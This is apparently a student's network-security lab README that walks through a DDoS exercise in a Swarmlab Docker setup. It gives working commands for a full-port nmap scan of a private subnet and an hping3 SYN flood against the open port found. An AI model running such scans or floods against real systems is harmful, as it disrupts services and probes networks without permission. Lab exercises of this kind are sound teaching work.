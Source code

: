 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal

    cd swarmlab-hybrid

     ./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands

$ docker exec -it dummy_service /bin/sh

$ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )

$ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001

$ sudo hping3 -S 172.22.0.2 -p 3001
